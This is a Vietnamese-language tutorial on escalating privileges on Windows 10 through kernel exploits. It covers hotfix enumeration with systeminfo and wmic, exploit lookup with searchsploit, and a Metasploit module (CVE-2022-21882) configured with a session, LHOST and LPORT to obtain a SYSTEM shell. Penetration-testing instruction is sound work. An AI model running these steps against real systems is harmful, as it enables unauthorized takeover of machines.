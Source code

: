 # Khai thác hạt nhân cho hệ điều hành Windows hiện đại

## Săn lùng lỗ hổng hạt nhân

Trong ví dụ này, chúng tôi đã có được chỗ đứng trên máy Windows10 với tư cách là người dùng tiêu chuẩn **bob** .

## Enumerating Kernel Exploits – Manual Method

Cũng giống như bài trước, điều đầu tiên chúng ta cần làm là sử dụng lệnh systeminfo để tìm phiên bản hệ điều hành, kiến trúc và quan trọng nhất là các hotfix (KB) đã được cài đặt.

Ở đây chúng ta có thể thấy đây là hệ thống Windows 10 Pro – Build 18362 (version 1903) – x64 (64-bit). Chúng ta cũng có thể thấy rằng có hai hotfix được cài đặt trên máy chủ này.
Để thu thập thông tin về các hotfix được cài đặt trên máy chủ, chúng ta có thể sử dụng lệnh wmic sau :

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Ngày cài đặt hotfix rất quan trọng và chỉ ra rằng mục tiêu dễ bị tấn công bởi bất kỳ hoạt động khai thác kernel nào được phát hiện sau ngày này, miễn là phiên bản Windows 10 này bị ảnh hưởng.

Microsoft không còn sử dụng các số bản tin MS như “MS17-010” cho các lỗ hổng được tiết lộ của họ. Kể từ cuối năm 2017/đầu năm 2018, Microsoft hiện sử dụng số CVE liên quan đến lỗ hổng bảo mật. Điều này có nghĩa là đối với các hoạt động khai thác kernel hiện đại, chúng ta sẽ thấy rằng tất cả chúng đều được gắn nhãn là CVE-20XX-XXXX.

Để bắt đầu, chúng tôi có thể Google hai bản sửa lỗi đã cài đặt để xem chúng vá những lỗ hổng nào. Từ đó, chúng tôi sẽ biết mục tiêu của chúng tôi KHÔNG dễ bị tổn thương. Điều này có nghĩa là mọi hoạt động khai thác đối với phiên bản Windows cụ thể này (1903) được phát hiện sau ngày cập nhật hotfix sẽ hoạt động.

Một lần nữa, kỹ thuật này chỉ hoạt động khả thi nếu cài đặt ít hotfix nhất.

## Enumerating Kernel Exploits – Tools

Chúng ta có thể tìm kiếm các cách khai thác bằng cách sử dụng lệnh searchsploit và sau đó sử dụng cách khai thác tích hợp cho một lỗ hổng cụ thể.

Ví dụ: chúng ta có thể sử dụng lệnh sau để xem liệu có bất kỳ cách khai thác nào đối với phiên bản Windows này hay không.

```
searchsploit 1903
```

Từ đây, chúng ta có thể thấy rằng đây đều là các tệp TXT, có thể sẽ có một liên kết bên trong chúng tới kho lưu trữ GitHub có chứa phần khai thác để sử dụng. Chúng ta có thể sao chép các tệp này vào thư mục của mình hoặc vì chúng là tệp TXT, chúng ta chỉ cần sử dụng lệnh định vị để tìm đường dẫn đầy đủ rồi cat tệp. Ví dụ:

```
locate 48267.txt
```

```
cat /usr/share/exploitdb/exploits/windows/local/48267.txt
```

Trong tệp TXT chúng ta có thể thấy đây là CVE-2020-0796. Điều này có nghĩa là cách khai thác này mới hơn bản vá mới nhất của mục tiêu và do đó, đây sẽ là một cách khai thác mà chúng tôi có thể sử dụng để nâng cấp lên HỆ THỐNG

## Testing Kernel Exploits and Elevating Privileges to Administrator / SYSTEM

Chúng ta có thể thấy phiên 1 đã mở, điều quan trọng cần lưu ý là chúng ta cần giữ lại số phiên này.

Metasploit có khá nhiều mô-đun để khai thác kernel hiện đại; tuy nhiên, khi chúng tôi cố gắng sử dụng Local Exploit Suggester như chúng tôi đã làm ở bài đăng trước, nó sẽ không mang lại nhiều lợi ích cho chúng tôi.

Thay vào đó, chúng ta có thể sử dụng lệnh nền để thoát khỏi phiên đo lường và sau đó sử dụng lệnh sau để liệt kê các cách khai thác CVE khác nhau hiện có:

```
search exploit/windows/local/cve
```

Tìm kiếm không bao gồm TẤT CẢ các lần khai thác kernel, đó là do Metasploit đã đặt tên một số trong số chúng bằng tên 'phương tiện' chứ không phải số CVE của chúng. Ví dụ: chúng ta có thể thấy SMBGhost có trong danh sách ở đây nhưng COMahawk thì không.

Điều này cung cấp một điểm khởi đầu tốt để chúng tôi thử nghiệm các hoạt động khai thác. Chúng ta có thể bắt đầu bằng cách tham chiếu chéo kết quả đầu ra của Watson và thử nghiệm các hoạt động khai thác xuất hiện trong lần quét đó, chẳng hạn như CVE-2020-0668 và SMBGhost.

Ngoài ra, chúng tôi có thể kiểm tra COMahwk bằng cách tìm kiếm nó theo tên. Tuy nhiên, chúng ta đã thấy cả SMBGhost và COMahawk đều bị khai thác, vì vậy hãy cùng xem một cách khai thác kernel thực sự tốt ảnh hưởng đến rất nhiều phiên bản Windows 10 hiện đại.

```
use exploit/windows/local/cve_2022_21882_win32k
```

Chúng ta sẽ cần đặt các giá trị SESSION, LHOST và LPORT cho việc này; tuy nhiên, hãy nhanh chóng xem xét tất cả các phiên bản Windows 10 bị ảnh hưởng.

Ồ! Điều này ảnh hưởng đến hầu hết mọi phiên bản Windows 10, cho đến phiên bản mới nhất và cuối cùng trước Windows 11!
Được rồi, bây giờ chúng ta chỉ cần thêm thông tin chi tiết của mình vào khai thác:

```
set SESSION 1
set LHOST 172.16.1.30
set LPORT 8080
show options
```

Bây giờ mọi thứ đã được thiết lập, chúng ta có thể sử dụng lệnh khai thác và sau đó chúng ta sẽ thấy phiên kiểm tra thứ hai dưới dạng HỆ THỐNG.
